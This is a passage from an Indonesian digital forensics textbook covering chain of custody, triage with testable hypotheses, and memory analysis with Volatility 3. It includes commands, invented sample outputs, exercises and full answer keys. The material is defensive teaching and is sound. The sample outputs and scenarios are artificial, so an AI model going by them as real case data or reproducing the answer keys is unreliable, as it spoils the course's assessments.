# Buat working copy (bukan copy dari original — copy dari forensic image):
cp /evidence/wkst001.img /work/wkst001_working.img

# Atau untuk analisis spesifik (Volatility tidak memodifikasi file):
# Volatility membaca langsung dari .mem file tanpa modifikasi
volatility3 -f /evidence/EID001_ram.mem windows.pslist

# Untuk mount disk image (read-only):
mount -o ro,loop /evidence/wkst001.img /mnt/evidence/
# -ro = read-only: wajib! tidak boleh mount rw

# Setelah selesai:
umount /mnt/evidence/
# Verifikasi hash evidence tidak berubah:
sha256sum /evidence/wkst001.img
# Harus sama persis dengan hash di evidence register
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Skenario: Hash mismatch terdeteksi**

Investigator mengambil RAM dump pada pukul 09:00. Saat verifikasi hash pada pukul 11:00 sebelum analisis dimulai:

```bash
sha256sum /evidence/EID001_ram.mem
# Output: b1c2d3e4... (berbeda dari a3b4c5d6... yang ada di evidence register!)
```

**Prosedur yang benar:**
1. Hentikan semua analisis segera.
2. Dokumentasikan discrepancy: "Hash mismatch terdeteksi pada EID-001 saat [waktu]."
3. Investigasi penyebab: apakah ada akses tidak sah? Apakah file ter-corrupt? Apakah ada kesalahan prosedur saat transfer?
4. Jangan lanjutkan analisis pada evidence yang hash-nya tidak cocok.
5. Laporkan kepada supervisor dan (jika untuk kasus hukum) kepada counsel.
6. Jika ada backup atau original masih tersedia, pertimbangkan re-acquisition dengan prosedur yang diperketat.

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Mempraktikkan prosedur hash verification dan pengisian evidence register.

**Aktivitas (menggunakan file yang disediakan dosen — bukan perangkat nyata):**
1. Dosen menyediakan sebuah file (contoh dataset forensik publik, sudah dihash sebelumnya).
2. Mahasiswa: (a) hitung SHA-256 dari file yang diterima; (b) verifikasi terhadap hash yang diberikan dosen; (c) isi evidence register untuk file tersebut; (d) buat "working copy" (cp ke direktori kerja); (e) modifikasi working copy satu byte (hex editor atau echo >> ke file); (f) hash ulang working copy — dokumentasikan bahwa hash berubah.
3. Diskusikan: apa artinya jika hash working copy berubah vs hash original?

**Output:** Evidence register yang terisi + catatan prosedur — bagian dari Eval-1.

## 8. Latihan Pemahaman

1. **(C4)** Mengapa write-blocker diperlukan saat melakukan forensic imaging dari hard drive fisik? Apa yang bisa terjadi jika sistem operasi investigator menulis ke media yang sedang di-image?

2. **(C4)** Dalam skenario di mana sistem yang akan diinvestigasi adalah virtual machine (VM) yang berjalan di cloud, apakah prosedur CoC yang sama berlaku? Apa perbedaan dan tantangannya?

3. **(C3)** Apa perbedaan antara "forensic image" (raw/dd) dan "logical copy" (copy file per file)? Dalam konteks apa masing-masing lebih tepat digunakan?

## 9. Latihan Terapan / Studi Kasus

Anda sedang menganalisis kasus penyelewengan aset perusahaan. Anda telah membuat forensic image dari laptop pelaku (dengan otorisasi yang tepat) dan menyimpannya di evidence storage. Dua minggu kemudian, pengacara klien meminta "raw copy" dari image tersebut untuk dianalisis oleh ahli forensik mereka. (a) Apa prosedur yang benar untuk "mentransfer" bukti kepada pihak ketiga (ahli forensik pengacara)? (b) Apa yang harus dilakukan ahli forensik pihak pengacara saat menerima bukti untuk memverifikasi integritasnya? (c) Bagaimana Anda memastikan bahwa copy yang dikirim tidak berbeda dari original, dan bagaimana ini didokumentasikan?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Write-blocker adalah perangkat (hardware) atau software yang mencegah semua write operation ke media yang sedang di-image. Tanpa write-blocker: (a) sistem operasi Windows/Linux secara otomatis melakukan berbagai write ke media yang terdeteksi (update last-accessed timestamps, mount partition, create journal, dll.); (b) ini mengubah konten media sebelum imaging selesai; (c) akibatnya: hash dari media asli berubah setelah akuisisi → tidak bisa membuktikan bahwa forensic image identik dengan media "saat insiden terjadi"; (d) dalam pengadilan: dapat diargumentasikan bahwa bukti telah terkontaminasi.

**Soal 2:** VM di cloud menghadirkan tantangan unik: (a) akuisisi fisik tidak mungkin — tidak ada media fisik untuk di-write-blocked; (b) snapshot VM adalah ekuivalen forensic image, namun perlu prosedur yang diotorisasi cloud provider; (c) hypervisor dan cloud provider memiliki akses ke VM — chain of custody harus mencakup konfirmasi dari provider bahwa tidak ada akses yang tidak sah; (d) chain of custody harus mencakup dokumentasi dari cloud provider (misalnya: AWS snapshot history, API call logs dari CloudTrail untuk membuktikan siapa yang mengakses VM); (e) hash snapshot perlu diverifikasi: apakah snapshot yang diterima identik dengan yang dibuat pada waktu tertentu?

**Soal 3:** Forensic image (raw/dd): exact sector-by-sector copy — termasuk unallocated space, deleted files, file system metadata, slack space. Digunakan untuk investigasi mendalam, recovery file terhapus, timeline analysis. Logical copy: hanya meng-copy file yang ada (visible). Tidak termasuk: unallocated space, deleted files, alternate data streams. Lebih cepat, lebih kecil ukurannya. Digunakan untuk: koleksi data spesifik yang sudah diidentifikasi (misalnya "backup dokumen tertentu"), bukan untuk investigasi forensik komprehensif. Dalam advanced forensics: selalu forensic image jika memungkinkan; logical copy hanya sebagai suplemen atau ketika forensic image tidak praktis (cloud storage, misalnya).

**Studi Kasus:** (a) Prosedur transfer ke pihak ketiga: buat working copy dari forensic image (bukan dari original); hash working copy dan dokumentasikan; transfer via media yang tersealed (HDD dalam static bag, terseal, berlabel); sertakan: hash SHA-256, case number, evidence ID, tanggal pembuatan copy; perbarui evidence register dengan entri transfer; dapatkan tanda tangan penerima saat handover. (b) Ahli forensik pihak pengacara saat menerima: hitung SHA-256 dari copy yang diterima; bandingkan dengan hash yang didokumentasikan dalam surat pengantar; jika cocok: konfirmasi tertulis dan tambahkan ke evidence register mereka; jika tidak cocok: laporkan discrepancy segera. (c) Membuktikan integritas: dokumentasi SHA-256 di evidence register sebelum transfer; penerima melakukan independent hash verification saat menerima; keduanya menandatangani dokumen yang menyatakan hash yang terverifikasi — ini menciptakan bukti yang tidak ambiguous bahwa copy tidak dimodifikasi saat transit.

## 11. Ringkasan Bab

Chain of custody adalah rantai dokumentasi yang tidak terputus dari akuisisi hingga presentasi bukti. Order of volatility menentukan urutan akuisisi: RAM terlebih dahulu sebelum disk. Hash kriptografis (SHA-256) membuktikan integritas bukti secara matematis. Evidence register mencatat setiap item, hash, custodian, dan transfer. Investigator selalu bekerja pada working copy, tidak pernah pada original. Write-blocker wajib untuk akuisisi disk fisik.

## 12. Refleksi Profesional

1. Dalam kasus high-profile, chain of custody evidence yang tidak sempurna sering menjadi celah yang dieksploitasi pengacara pembela untuk mendiskreditkan investigasi secara keseluruhan. Sebagai investigator yang menemukan bahwa rekan Anda melewati beberapa langkah CoC "karena tekanan waktu," apa yang Anda lakukan? Bagaimana Anda menyeimbangkan loyalitas profesional dengan integritas investigasi?

---

# BAB 3 — ADVANCED TRIAGE DAN FORENSIC HYPOTHESIS

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Melakukan advanced triage yang efisien untuk memprioritaskan akuisisi dan analisis
- Menyusun forensic hypothesis yang dapat diuji dan difalsifikasi
- Mengidentifikasi artefak yang paling bernilai untuk berbagai jenis kasus
- Memahami hubungan antara hypothesis-driven investigation dan hasil yang defensible

*Berkaitan dengan Sub-CPMK-1, Eval-1 (10%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Advanced Triage &\nForensic Hypothesis] --> B[Triage Framework]
    B --> B1["Evidence potential:\nartefak mana paling mungkin\nmengandung bukti?"]
    B --> B2["Acquisition cost:\nwaktu & resources yang diperlukan"]
    B --> B3["Volatility:\nsemakin volatile = akuisisi lebih dulu"]
    B --> B4["Legal risk:\napakah akuisisi diotorisasi?"]
    A --> C[Hypothesis-Driven Investigation]
    C --> C1["Hipotesis dapat difalsifikasi:\nbisa salah, bisa benar"]
    C --> C2["Hipotesis alternatif:\nselalu miliki minimal 2"]
    C --> C3["Evidence mapping:\nbukti apa mendukung H1 vs H2?"]
    C --> C4["Update hipotesis:\nbuah bukti baru mengubah arah?"]
    A --> D[Artefak per Case Type]
    D --> D1["Insider threat:\nauthlogs, USB history,\ndocument access, email"]
    D --> D2["Malware/APT:\nmemory, prefetch, scheduled tasks,\nregistry run keys"]
    D --> D3["Data exfiltration:\nDNS, proxy, email size,\ncloud upload logs"]
    D --> D4["Ransomware:\nVSS deletion, registry, ransom note,\nfile extension changes"]
    A --> E[Triage Documentation]
    E --> E1["Triage decision log:\nmengapa prioritas ini?"]
    E --> E2["Artefak yang di-skip:\ndokumentasikan alasan"]
    E --> E3["Update log:\nsaat temuan mengubah prioritas"]
```

## 3. Pengantar Kontekstual

Dalam investigation dengan puluhan device dan terabyte data, tidak ada waktu untuk menganalisis segalanya. Advanced triage adalah seni dan ilmu menentukan di mana kemungkinan besar bukti yang signifikan berada, sehingga sumber daya investigasi dapat difokuskan dengan tepat. Hipotesis forensik memberikan kerangka yang mencegah "fishing expedition" — analisis tanpa arah yang membuang waktu dan dapat menjadi tidak defensible.

## 4. Landasan Teori

### 4.1 Triage Framework: Evidence Value vs Acquisition Cost

Advanced triage mempertimbangkan dua dimensi utama: nilai bukti potensial dan biaya akuisisi/analisis.

```
Triage Matrix:
                     Nilai Bukti Tinggi | Nilai Bukti Rendah
Biaya Akuisisi Rendah | PRIORITAS 1      | PRIORITAS 3 (opsional)
Biaya Akuisisi Tinggi | PRIORITAS 2      | Skip / justifikasi
```

**Faktor yang mempengaruhi nilai bukti:**
- Relevansi dengan hipotesis
- Kualitas dan completeness data
- Kesulitan penghapusan oleh pelaku (bukti yang sulit dihapus lebih bernilai)
- Volatilitas (semakin volatile, semakin segera diakuisisi)

**Faktor yang mempengaruhi biaya akuisisi:**
- Ukuran data
- Waktu yang diperlukan
- Interrupsi yang diperlukan (downtime sistem?)
- Resources (hardware, software, expertise)

### 4.2 Hypothesis-Driven Investigation

**Forensic hypothesis yang baik:**
- Dapat difalsifikasi: ada jenis bukti yang bisa membuktikannya salah
- Spesifik: "Akun X mengexfiltrate data via FTP ke IP Y pada tanggal Z" — bukan "Ada kebocoran data"
- Testable: ada artefak spesifik yang bisa membuktikan atau membantah

**Template hipotesis:**
```markdown
## FORENSIC HYPOTHESIS DOCUMENT

Hipotesis Utama (H1):
"Malware jenis backdoor diinstal pada workstation WKST-001 melalui spear phishing
email pada atau sekitar 28 Oktober 2025. Malware ini digunakan untuk mengakses
database customer pada 29-30 Oktober dan mengexfiltrate data via koneksi HTTPS
ke server eksternal."

Bukti yang MENDUKUNG H1 (jika ditemukan):
- Suspicious process dalam memory dump dengan koneksi ke IP eksternal
- Email dengan attachment pada ~28 Oktober di mailbox user
- Prefetch file untuk executable asing
- DNS query ke unknown domain sekitar waktu insiden
- Outbound HTTPS traffic volume anomali pada 29-30 Oktober

Bukti yang MEMBANTAH H1 (falsifiers):
- Tidak ada process asing dalam memory
- Tidak ada outbound traffic yang tidak biasa
- Tidak ada email suspicious

Hipotesis Alternatif (H2):
"Insider threat: karyawan dengan akses legitimate (admin01 atau admin02)
melakukan exfiltration secara manual menggunakan tools yang sudah ada."

Bukti yang MENDUKUNG H2:
- Login event admin01 atau admin02 pada jam tidak biasa
- Query database yang besar dari akun tersebut
- USB device insertion sekitar waktu tersebut
- Email dengan attachment besar dari akun tersebut
```

### 4.3 Artefak Kritis per Jenis Kasus

**Tabel referensi triage artefak:**

| Kasus | Artefak Prioritas | Tool | Catatan |
|---|---|---|---|
| Malware/fileless | RAM dump, prefetch, registry (Run keys) | Volatility, Autopsy | Fileless malware hanya ada di RAM |
| Insider threat | Auth log (4624/4672), USB history, document access, email export log | Autopsy, Log2timeline | Korelasi login time dengan event |
| Data exfiltration | DNS log, proxy log, email attachment sizes, cloud sync log | SIEM, NetworkMiner | Cari traffic anomali keluar |
| Ransomware | VSS deletion event (ID 7036/524), ransom note, file extension, registry | Event Viewer, Autopsy | Lihat kapan shadow copies dihapus |
| Account compromise | Auth log, LDAP query, VPN log, geolocation anomaly | SIEM | IP login tidak biasa |

### 4.4 Mendokumentasikan Keputusan Triage

Keputusan triage harus terdokumentasi — mengapa item tertentu diprioritaskan, dan mengapa yang lain di-skip atau ditunda. Ini penting karena:
- Jika investigasi melewatkan sesuatu yang penting, dokumentasi menunjukkan reasoning yang rasional
- Jika hipotesis berubah, dokumentasi menunjukkan bagaimana dan mengapa

```markdown
## TRIAGE DECISION LOG — Case CF-2025-001

| Item | Keputusan | Alasan | Catatan |
|---|---|---|---|
| RAM WKST-001 | AKUISISI SEGERA | High potential untuk fileless malware; admin01 terakhir aktif di sini | Prioritas 1 |
| Disk WKST-001 | AKUISISI (setelah RAM) | Potential prefetch, registry evidence | Prioritas 2 |
| RAM FILE-SERVER | SKIP | Server sudah di-reboot kemarin; RAM tidak valid | Dokumentasi: bukti volatile hilang |
| Personal phone karyawan | SKIP | Tidak dalam scope otorisasi | Butuh additional warrant/consent |
| Email backup (18 bulan lalu) | TUNDA | Di luar periode insiden kecuali hipotesis H2 terkonfirmasi | Review jika H2 menguat |
```

## 5. Model atau Arsitektur



## 6. Contoh Terapan

**Skenario ransomware response triage:**

Organisasi melaporkan bahwa beberapa file sudah terenkripsi dan ada ransom note. Sistem masih berjalan (belum di-shutdown). Triage decisions:

```markdown
## Triage Prioritas — Kasus Ransomware CORP-2025-002

H1: Ransomware dieksekusi dari attachment email; payload berjalan di WKST-005
H2: Ransomware masuk via RDP brute-force pada server RDP-JUMP

PRIORITAS 1 (SEGERA — jangan shutdown):
- RAM dump WKST-005: cari ransomware process yang masih running
- RAM dump RDP-JUMP: cari evidence RDP sessions
- Capture live network connections: apakah C&C masih aktif?

PRIORITAS 2 (setelah volatile):  
- Windows Event Log (dari WKST-005 dan RDP-JUMP): Event ID 4624 (login), 7045 (service install)
- Prefetch files: kapan executable ransomware pertama kali berjalan?
- VSS (Volume Shadow Copy): kapan shadow copies dihapus? (Event ID 524)

PRIORITAS 3 (analisis mendalam):
- Email server log: siapa yang menerima email dengan attachment executable?
- RDP log: dari IP mana brute-force berasal?
- Disk image untuk recovery dan timeline lengkap

SKIP (justifikasi):
- WKST-001 sampai WKST-004 dan WKST-006-WKST-020: belum terindikasi terlibat
  (analisis dapat dilakukan setelah WKST-005 selesai jika H1 atau H2 tidak terkonfirmasi)
```

## 7. Praktikum atau Aktivitas Terarah

**Tujuan:** Menyusun triage plan dan forensic hypothesis untuk skenario yang diberikan.

**Aktivitas:**
1. Dosen menyediakan skenario insiden yang lebih kompleks dari Bab 1 (multi-device, multi-user).
2. Mahasiswa: (a) formulasikan minimal 2 hipotesis; (b) buat artefak map (apa yang mendukung/membantah setiap hipotesis); (c) susun triage priority list dengan justifikasi; (d) identifikasi artefak yang akan di-skip dan alasannya.
3. Presentasi singkat ke sesama mahasiswa (5 menit) untuk mendapat feedback.

**Output:** Triage plan + hypothesis document — bagian dari Eval-1.

## 8. Latihan Pemahaman

1. **(C5)** Evaluasi dua pendekatan investigasi: (A) "Kumpulkan semua bukti yang tersedia dulu, analisis nanti" dan (B) "Formulasikan hipotesis dulu, kemudian kumpulkan bukti yang relevan." Apa kelemahan masing-masing? Dalam skenario apa (A) mungkin lebih tepat, dan dalam skenario apa (B) lebih direkomendasikan?

2. **(C4)** Anda memiliki hipotesis bahwa malware masuk melalui email phishing. Setelah 3 jam analisis, tidak ditemukan bukti phishing sama sekali. Apakah ini berarti hipotesis terbukti salah? Atau bisa ada penjelasan lain? Bagaimana Anda melanjutkan investigasi?

## 9. Latihan Terapan / Studi Kasus

Organisasi keuangan melaporkan bahwa uang senilai Rp 1,2 miliar ditransfer secara tidak sah dari rekening nasabah melalui internet banking. Sistem internet banking berjalan di server Linux. Ada 3 akun nasabah yang terdampak. Anda diberi otorisasi untuk: menganalisis server internet banking, log database, dan workstation tim IT. (a) Formulasikan 3 hipotesis forensik yang berbeda tentang bagaimana ini bisa terjadi; (b) Untuk setiap hipotesis, buat artefak map (bukti yang mendukung dan membantah); (c) Susun triage priority list; (d) Artefak apa yang paling critical dan mengapa?

## 10. Kunci Jawaban dan Pembahasan

**Soal 1:** Pendekatan (A) — Kumpulkan semua dulu: Pro: tidak ada bias konfirmasi; tidak melewatkan bukti yang tidak terduga. Con: tidak praktis untuk environment besar (terabyte data); analisis tanpa arah menjadi "fishing expedition" yang sulit dipertahankan; bisa memakan waktu berbulan-bulan. Lebih tepat untuk: kasus kecil dengan sedikit device; situasi di mana hipotesis awal sangat tidak jelas. Pendekatan (B) — Hypothesis-driven: Pro: efisien; dapat dipertahankan karena reasoning jelas; setiap langkah analisis dapat dikaitkan dengan upaya menguji hipotesis spesifik. Con: risiko bias konfirmasi jika investigator terlalu committed ke hipotesis tertentu; bisa melewatkan bukti yang tidak terkait hipotesis. Lebih tepat untuk: environment besar dengan banyak data; timeline yang ketat. Praktek terbaik: gabungkan keduanya — mulai dengan hypothesis-driven, tetapi tetap open untuk "anomali di luar hipotesis" yang mungkin membuka jalur investigasi baru.

**Soal 2:** Tidak adanya bukti phishing bukan berarti hipotesis terbukti salah — hanya berarti hipotesis tidak terkonfirmasi dengan bukti yang tersedia. Kemungkinan lain: (a) email phishing sudah dihapus sebelum analisis (anti-forensics); (b) phishing terjadi via channel lain (WhatsApp, SMS, Telegram — bukan email); (c) hipotesis phishing memang salah — vektor masuk berbeda; (d) artefak email sudah tidak tersedia (server email di cloud, tidak dalam scope). Langkah selanjutnya: aktifkan hipotesis alternatif H2; cari bukti vektor masuk yang lain (RDP log, VPN log, web server access log untuk exploit attempts); jangan hapus H1 — tulis "tidak terkonfirmasi" bukan "terbukti salah."

**Studi Kasus:** (a) H1 = Credential nasabah dikompromis (phishing/credential stuffing) dan digunakan oleh attacker dari IP eksternal untuk melakukan transfer; H2 = Insider threat: karyawan IT atau pengembang memanipulasi kode atau database untuk melakukan transfer tidak sah; H3 = Compromise pada server internet banking (SQLi, RCE) yang memungkinkan attacker memanipulasi transaksi. (b) Artefak per hipotesis: H1 = auth log (IP login yang tidak biasa), geolocation mismatch, session log, failed login sebelum sukses; H2 = audit log database (UPDATE/INSERT oleh internal user di jam tidak biasa), auth log akses server dari dalam, file access log; H3 = web server access log (SQLi patterns), error log, server process list (kemungkinan reverse shell), file modification timestamp. (c) Triage: (1) Web server access log — sederhana, immediate value; (2) Database audit log — langsung ke bukti transaksi; (3) Auth log server — session saat transaksi terjadi; (4) Memory server — jika H3, ada kemungkinan reverse shell masih running. (d) Artefak paling critical: database audit log di sekitar waktu transaksi tidak sah — ini yang paling langsung membuktikan atau membantah H1 vs H2 vs H3 (siapa yang melakukan transaksi, dari session mana, dengan credential apa).

## 11. Ringkasan Bab

Advanced triage mempertimbangkan nilai bukti, volatilitas, dan biaya akuisisi untuk memprioritaskan analisis. Hypothesis-driven investigation memberikan struktur yang defensible: hipotesis yang dapat difalsifikasi, artefak map yang jelas, dan dokumentasi saat hipotesis berubah. Investigator harus selalu memiliki minimal 2 hipotesis untuk menghindari bias konfirmasi. Keputusan triage — termasuk apa yang di-skip — harus terdokumentasi dengan justifikasi yang jelas.

## 12. Refleksi Profesional

1. Dalam kasus high-stakes (korupsi perusahaan, kejahatan terorganisir), ada risiko bahwa pihak yang meminta investigasi memiliki "hipotesis yang sudah ada" dan ingin investigator mengkonfirmasi, bukan menemukan kebenaran. Bagaimana Anda mempertahankan objektivitas investigasi ketika klien atau pemberi tugas memiliki bias yang kuat? Apa batas profesional dan etika yang harus Anda pegang?


---

# BAB 4 — MEMORY FORENSICS: FONDASI DAN VOLATILITY FRAMEWORK

## 1. Capaian Pembelajaran Bab

Setelah mempelajari bab ini, mahasiswa mampu:
- Memahami struktur memori dan mengapa analisis memori penting untuk forensik lanjutan
- Menggunakan Volatility 3 untuk analisis dasar: proses, koneksi, dan modul
- Mengidentifikasi artefak kritikal dalam memory dump
- Mengevaluasi keterbatasan memory forensics

*Berkaitan dengan Sub-CPMK-2, Eval-2 (25%)*

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    A[Memory Forensics:\nFondasi] --> B[Mengapa Memori?]
    B --> B1["Fileless malware:\nhanya ada di RAM"]
    B --> B2["Encryption keys:\nkunci enkripsi disk\nada di RAM saat running"]
    B --> B3["Network connections:\nconeksi aktif yang tidak\ntercatat di disk"]
    B --> B4["Running state:\nproses dan state sistem\nsaat insiden"]
    A --> C[Memory Acquisition]
    C --> C1["Tools: WinPmem (Windows),\nLiME (Linux), osxpmem (macOS)"]
    C --> C2["Format: raw (.mem, .dmp),\nhiberfil.sys, crash dump"]
    C --> C3["Validasi: hash sebelum\ndan sesudah akuisisi"]
    C --> C4["Keterbatasan: tidak bisa\nacquire RAM yang sudah hilang;\nVM suspend sebagai alternatif"]
    A --> D[Volatility 3]
    D --> D1["Profile: tidak perlu lagi di V3\n(auto-detection via symbols)"]
    D --> D2["Core plugins:\nwindows.pslist, windows.pstree,\nwindows.netscan"]
    D --> D3["Command syntax:\nvolatility3 -f dump.mem <plugin>"]
    A --> E[Key Artefacts]
    E --> E1["Process list:\nproses legitimate vs mencurigakan"]
    E --> E2["Parent-child relationships:\npstree — PPID anomaly"]
    E --> E3["Network connections:\nconeksi ke IP eksternal"]
    E --> E4["DLLs dan modules:\nlibrary yang di-load oleh proses"]
```

## 3. Pengantar Kontekstual

Ketika attacker modern menggunakan fileless malware — malware yang hanya hidup dalam RAM dan tidak pernah menyentuh disk — analisis disk tradisional tidak akan menemukannya. Volatility Framework adalah standar industri untuk memory forensics: tool open-source yang memungkinkan analisis mendalam terhadap RAM dump tanpa memodifikasi sistem yang diperiksa. Volatility 3 (generasi terbaru) mendukung Windows, Linux, dan macOS memory dumps dengan pendekatan symbol-based yang tidak memerlukan profil manual.

## 4. Landasan Teori

### 4.1 Struktur Memori Windows: Konsep Dasar

**Virtual memory address space** di Windows 64-bit:
- Setiap proses memiliki virtual address space tersendiri (4 TB pada 64-bit)
- Kernel space: diakses oleh OS kernel dan driver — tidak langsung accessible dari user mode
- User space: tempat program berjalan

**Konsep penting untuk forensics:**
- **Process**: unit eksekusi dengan PID unik, parent (PPID), dan virtual memory space
- **Kernel Pool**: alokasi memori untuk kernel objects (masih ada di RAM bahkan setelah proses berakhir)
- **VAD (Virtual Address Descriptor)**: struktur yang mendeskripsikan region memori dalam proses
- **EPROCESS**: struktur kernel yang mewakili setiap proses (berisi: PID, PPID, nama proses, waktu buat/selesai, token privileges)

**Relevansi untuk deteksi malware:**
Malware sering: menyembunyikan diri dari process list dengan memanipulasi EPROCESS (DKOM — Direct Kernel Object Manipulation); menggunakan proses legitimate sebagai host (process injection); menghapus nama dari process list namun tetap berjalan.

### 4.2 Volatility 3: Workflow Dasar

```bash
# Semua perintah Volatility dijalankan HANYA pada file dump yang sudah diakuisisi
# (dalam lab berotorisasi) — tidak pernah langsung pada sistem production

# Syntax dasar Volatility 3:
# volatility3 -f <memory_dump_file> <plugin_name> [options]

# Contoh dengan file dump yang disediakan dosen (misal: windows_sample.mem):

# 1. Cek informasi dasar memory dump (OS, versi, arsitektur)
volatility3 -f windows_sample.mem windows.info

# Output contoh:
# Variable          Value
# ----------------  -----
# Kernel Base       0xf80000000000
# DTB               0x1aa000
# Symbols           file:///var/cache/volatility3/...
# Is64Bit           True
# IsPAE             False
# primary           WindowsIntel32e
# memory_layer      FileLayer
# KdVersionBlock    0xf80001238948
# Major/Minor       15.19041
# MachineType       34404
# KeNumberProcessors 2
# SystemTime        2025-10-29 03:42:17

# 2. List semua proses
volatility3 -f windows_sample.mem windows.pslist

# Output contoh (disingkat):
# PID    PPID   ImageFileName   Offset   Threads   Handles   SessionId
# 4      0      System          ...      185       ...       N/A
# 280    4      smss.exe        ...      2         ...       N/A
# 352    344    csrss.exe       ...      12        ...       0
# 380    344    wininit.exe     ...      3         ...       0
# 424    380    lsass.exe       ...      9         ...       0
# 1024   588    svchost.exe     ...      24        ...       0
# 2156   1024   powershell.exe  ...      8         ...       1
# 3404   2156   cmd.exe         ...      1         ...       1  <-- child dari PowerShell!
# 3412   3404   net.exe         ...      1         ...       1  <-- suspicious!

# 3. Process tree — lebih mudah melihat parent-child
volatility3 -f windows_sample.mem windows.pstree
# Menampilkan hierarki proses — indentasi menunjukkan parent-child

# 4. Network connections
volatility3 -f windows_sample.mem windows.netscan

# Output contoh:
# Offset   Proto   LocalAddr:Port   ForeignAddr:Port   State   PID   Process
# ...      TCPv4   10.0.0.5:49200   185.234.219.10:443 ESTABLISHED 3404 cmd.exe
# <-- cmd.exe dengan koneksi HTTPS ke IP eksternal = SANGAT SUSPICIOUS!
```

### 4.3 Mengidentifikasi Proses Mencurigakan

**Anomali yang harus dicari dalam process list:**

```markdown
## Checklist Analisis Proses

1. Proses legitimate yang memiliki PPID tidak wajar:
   - svchost.exe harusnya parent = services.exe (PID spesifik)
   - explorer.exe harusnya parent = userinit.exe atau winlogon.exe
   - lsass.exe harusnya parent = wininit.exe (hanya satu, bukan dua!)
   - cmd.exe atau powershell.exe sebagai child dari Word/Excel/browser = RED FLAG

2. Nama proses yang mirip dengan proses legitimate (masquerading):
   - svchost.exe vs svch0st.exe vs svchost32.exe
   - lsass.exe vs lssas.exe vs lsass32.exe
   - explorer.exe vs explor3r.exe

3. Proses yang unexpected memiliki network connections:
   - Notepad.exe dengan koneksi internet
   - cmd.exe dengan koneksi ke IP eksternal

4. Proses dengan timestamp yang tidak biasa:
   - Proses berjalan pada 03:00 dini hari pada hari kerja biasa
   - Proses yang baru berjalan sesaat sebelum time of interest

5. Hidden processes (tidak muncul di pslist tapi muncul di psscan):
   # psscan scan semua memory untuk EPROCESS structures:
   volatility3 -f windows_sample.mem windows.psscan
   # Bandingkan dengan pslist — apakah ada proses yang ada di psscan tapi tidak di pslist?
   # Jika ya: ini indikasi DKOM (rootkit-style hiding)
```

### 4.4 Analisis DLL dan Modul yang Di-load

```bash
# Lihat DLL yang di-load oleh proses spesifik (PID 3404 = cmd.exe mencurigakan)
volatility3 -f windows_sample.mem windows.dlllist --pid 3404

# Output menampilkan semua DLL yang di-load oleh proses ini
# Red flags dalam DLL list:
# - DLL dari lokasi tidak biasa (bukan C:\Windows\System32)
# - DLL yang tidak seharusnya ada di proses tersebut
# - DLL dengan nama menyerupai legitimate DLL tapi berbeda path/hash

# Cari DLL dengan path tidak biasa:
volatility3 -f windows_sample.mem windows.dlllist | grep -v "System32\|SysWOW64\|Windows\\\\Microsoft.NET"
# Output yang tersisa = kandidat suspicious

# Scan memory untuk semua image yang di-map (termasuk yang mungkin di-inject):
volatility3 -f windows_sample.mem windows.malfind
# Plugin ini mencari memory regions dengan:
# - Execute permission (dapat dieksekusi)
# - Tidak terkait file di disk (suspicious!)
# - Mengandung PE header (executable) dalam memori yang seharusnya tidak ada
```

### 4.5 Keterbatasan Memory Forensics

**Keterbatasan yang HARUS disebutkan dalam laporan:**

1. **Snapshot in time:** Memory dump adalah snapshot satu momen. Proses yang sudah berakhir sebelum dump tidak akan ada; proses baru setelah dump tidak akan ada.
